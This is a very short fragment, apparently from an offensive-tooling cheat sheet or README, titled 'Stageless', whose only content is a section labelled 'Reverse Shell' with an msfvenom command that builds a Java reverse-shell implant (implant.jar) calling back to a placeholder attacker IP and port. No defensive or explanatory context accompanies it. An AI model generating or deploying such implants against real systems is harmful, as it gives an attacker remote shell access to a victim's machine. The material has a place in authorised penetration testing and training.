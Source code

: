 # Stageless

## 01 - Reverse Shell

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```